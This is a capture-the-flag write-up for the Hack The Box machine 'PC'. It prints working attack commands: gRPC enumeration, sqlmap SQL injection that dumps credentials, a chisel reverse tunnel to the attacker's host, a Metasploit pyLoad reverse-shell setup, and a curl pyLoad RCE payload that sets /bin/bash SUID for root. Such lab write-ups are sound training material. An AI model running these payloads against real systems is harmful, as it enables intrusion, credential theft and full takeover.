 <h2> Target: PC 10.10.11.214 </h2>

<b>Initial Access: </b><br>
Step 1: nmap -Pn 10.10.11.214 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap shows open ports 22 and 50051

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.11.214 --min-rate=5000 -p 22,50051 -sC -sV -oN nmap-pc 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/aeec2822-38e3-4f4f-969e-3de761d3d880)

* To give the target ip address a domain name go into the file /etc/hosts and enter:  10.10.11.214 pc.htb

Step 3: Google search ‘port 50051 exploit’:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a92c9a46-1073-426c-823c-89cf1599b3c7) 
 
Reading some articles from the ‘search results’ we find that port 50051 uses gRPC and has an interesting vulnerability.  Based on a few articles found in the ‘search results’ we can perform a number of commands using ‘grpcurl’ and ‘grpcui’.  

Step 4: Using ‘grpcurl’, check the available services this gRPC server is offering: grpcurl -plaintext pc.htb:50051 list  

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/73cebf46-7524-4c8e-ad63-c4300bef5ce9) 
 
Step 6: Using ‘grpcui’, initiate a UI portal: grpcui -plaintext pc.htb:50051 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/98a51c9d-ea1d-4ab9-8a5e-9e703205036b) 

Navigate to the ip address and port given in the output from ‘grpcui’:  http://127.0.0.1:33317

Step 7: Log in using weak credentials of username ‘admin’ and password ‘admin’: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/99c9536b-8a22-46d6-b9a5-9a11311507ac)
 
After successful login, we get an id number and token: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/918b1438-a28b-4708-a079-5d254be550ec) 
 
Step 8: In the drop down ‘Method name’ at the top, switch it from ‘LoginUser’ to ‘getinfo’ and add into the ‘Request Metadata’ section the token and id values:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/be70e733-137f-4e0b-ab2c-219f8a9510bd) 

Step 9: Capture the ‘getinfo’ request in burpsuite:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/c9c02146-f7e0-4862-87bf-502bf93815c1) 
 
Using the ‘getinfo’ burpsuite capture, replace the ‘id’ number with a different number:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/7fe68472-3446-49f8-969f-f1381d25f048) 
  
The response shows an error in the ‘message’.  But if we add ‘or 1=1’ to the incorrect id value then the ‘message’ returns no error:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/90f5ecac-e6ae-4e58-9949-6c2effe101eb)
 
This indicates a blind boolean sql injection.  Copy the burp post request into a file (we will call the filename ‘burp’) and make sure the ‘id’ value in the copied file is just a number (we don't want the sql injection in the copied file).    

Step 10: Check for sql injection using sqlmap: sqlmap -r burp --batch --risk 3 --level 3 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/3aadc48c-2d52-432f-906c-cce20bea037a)

Sqlmap shows that the ‘id’ value is vulnerable to sql injection.

Step 11: Dump the database contents using sqlmap: sqlmap -r burp --batch --risk 3 --level 3 --dbms sqlite –tables 

 ![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/085b0013-ae8f-41ca-a218-7d45e3e9e028)

sqlmap -r burp --batch --risk 3 --level 3 --dbms sqlite --tables -T accounts --columns

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ece7f90c-144d-46b5-9c70-bce98a236200)

sqlmap -r burp --batch --risk 3 --level 3 --dbms sqlite --tables -T accounts --columns -C username,password –dump 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/b6356df4-1d9e-45b1-9aaf-549faee474ed)

Step 12: Try using the dumped credentials to log into ssh:  ssh sau@pc.htb → enter password ‘HereIsYourPassWord1431’ when prompted.  

It worked, we successfully logged into user sau.  We can get the flag in /home/sau/user.txt.
_______________________________________________________________________
<b>Privilege Escalation: </b><br>
Step 1: Run command netstat -ln: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5caa7a4b-ba83-40b8-8b13-9570a9f79fa6)
  
We find port 8000 is available only from 127.0.0.1.  

Step 2: Use chisel to perform dynamic port forwarding so that we can access port 8000 from our pc.  First, set up chisel server on our local pc: chisel server -p 1111 --reverse <br>
Next, set up the chisel client on the target pc: chisel client 10.10.14.19:1111 R:2222:socks

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/640567c5-c1d1-48a3-9a6e-bfeff0f365dd)
 
Step 3: In order to navigate to 127.0.0.1:8000 on our local browser we need to configure the browser to go through the port forward we created with chisel.  To do this, open foxyproxy and click on ‘Add’:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5c18cca5-bad7-453e-a196-674529d511ba)
 
Next, enter the details in foxyproxy that we used in chisel:
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e0795043-ac19-475a-90c7-f1a3ab50a5d0)

Step 4: Using our browser, navigate to http://127.0.0.1:8000:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/d013524d-d229-408d-ae58-2b645dcd4c89)
 
We find a website that uses ‘pyLoad’.  

Step 5: Google search ‘pyload exploit’ to see if there are any known vulnerabilities:


![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ae626bd1-147d-451f-be6c-2bb16867ef9d) 

We find that there is a known pre-auth RCE for pyLoad.  

Step 6:  Open metatsploit: msfconsole -q

Step 7: Find the pyload exploit in metasploit: search pyload

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/4fb60a7b-52d2-41b4-b8d5-54197ee4ee5d) 

Select the pyload exploit: use 0

Step 8:  Set up the proper options in metasploit using the following commands: <br>
Set proxies socks5:127.0.0.1:2222 <br>
set rhosts 127.0.0.1 <br>
set rport 8000 <br>
set lhost <enter_your_ip> <br>
set lport <enter_port_number> 
 



![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6ea53dcc-6491-4ffe-9ba5-91daa5538296)  

Step 9: Run the exploit: run

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a8d2cea9-a625-443c-99a9-ea297e8ba8bf)
 
We have shell as root.  We can get the flag in /root/root.txt.  

_________________________________________________________________________________________

<b>Privilege Escalation Without Metasploit:</b><br>
Step 1: In order to navigate to 127.0.0.1:8000 on our local pc terminal we need to configure the command in terminal to go through the port forward we created with chisel.   To do this, we will use proxychains.  Open the file /etc/proxychains.conf and enter in the last line: socks5 127.0.0.1 2222

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/9a1eea42-69d1-4bec-8893-94144595e862)

Step 2: Use the command: proxychains curl -s -k -X POST http://127.0.0.1:8000/flash/addcrypted2 --data 'package=xxx&crypted=AAAA&jk=pyimport os;os.system("chmod 4755 /bin/bash");f=function f2(){};&passwords=aaaa'

Before sending the command, url encode pyimport os;os.system("chmod 4755 /bin/bash")  → %70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%34%37%35%35%20%2f%62%69%6e%2f%62%61%73%68%22%29

Step 3: Send the command: proxychains curl -s -k -X POST http://127.0.0.1:8000/flash/addcrypted2 --data 'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%34%37%35%35%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function f2(){};&passwords=aaaa'

Step 4: On the target shell check if the /bin/bash binary permissions changed to suid: ls -al /bin/bash

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/2197df95-0bf9-4fdc-b86a-319e2c632210)
 
We see the /bin/bash now has suid permissions.  

Step 4:  On the target shell run: /bin/bash -p. <br>
We have shell as root.  
